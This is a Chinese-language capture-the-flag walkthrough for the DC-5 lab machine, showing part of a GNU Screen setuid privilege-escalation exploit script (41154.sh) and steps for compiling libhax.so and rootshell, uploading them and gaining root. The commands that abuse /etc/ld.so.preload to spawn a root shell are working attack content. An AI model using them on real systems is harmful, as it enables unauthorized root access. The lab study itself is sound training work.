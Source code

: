 ```
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
[plain]
:set ff=unix
root@kalilinux:~#
```

通过以上分析，我们应该对以上代码分三步走  
第一步：把该 bash 文件的上面一部分 c 语言代码单独复制出来，如图

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WkJdz4P1IzAFVAdTnyy1O58c8N8Rw7XukHHQlYTQribrchKQOhyBemAA/640?wx_fmt=png)

libhax.c 进行编译，编译完成后将 libhax.c 文件删除；

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9W0Nkic74hcUTr08AY5TzicvCRl8lOWibeocsWOTR81GjdVQaq0Ms8FXhPA/640?wx_fmt=png)

第二步：把下面一个 c 语言代码也单独复制出来取文件名为 rootshell.c，然后进行编译操作

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WOyeoIXCeOj6tzB2Biapoo6gciaK377tOibhvdv8SxKl6MGJoEy0p6Z3Kg/640?wx_fmt=png)

对 rootshell.c 文件进行 gcc 编译后，将原文件 rootshell.c 删除掉；

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WCnSIS7Hdw2T2uVfD9uE8j1J04s9h1aXag2zpUHiba1WL5ib8yaRAqX8Q/640?wx_fmt=png)

第三步：修改原来 41154.sh 的 bash 文件，如下图所示

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WvvKH9OhUia3WqI6xhvbicp6r529K15c63VOhgrRfvvrF2ibxVqY37NFDw/640?wx_fmt=png)

第四步：通过 vi 编译器打开已经编译好的 41154.sh 文件，并使用 :set ff=unix 进行保存  
编译后对 41154.sh 进行更名为 dc5.sh

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9W0pLE0YKXsaiarHs0RfNI04BH6TEVMXQRAIEHwop3oAleuAf5x2dic7icg/640?wx_fmt=png)

最后把编译好的两个文件（libhax.so 和 rootshell）和 41154.sh 文件全部都上传到 DC-5 靶机上面

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9W0t0nKw1nVicXUicdytg8BVodoEc6ibBl63gMPSc4FJ1vkXpAySafJcU1g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WB2t6Aw6s9fDzicpYPyw56U6HDQycbgqiarUS3WXfia5wwKqZMe83h1Utg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WUvCKjyMyNWFMhDaqlMq8KwPhj5a5BsVsnib0ic3glSTabibaCwGCeBQSA/640?wx_fmt=png)

提权  
给 dc5.sh 文件赋予执行权，并且运行 dc5.sh，提权成功

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WfMwrZaO3IdT9SWutwIicfJ908oFGqicSXbrXvqD0gb5Q16B6sBMV4icZQ/640?wx_fmt=png)
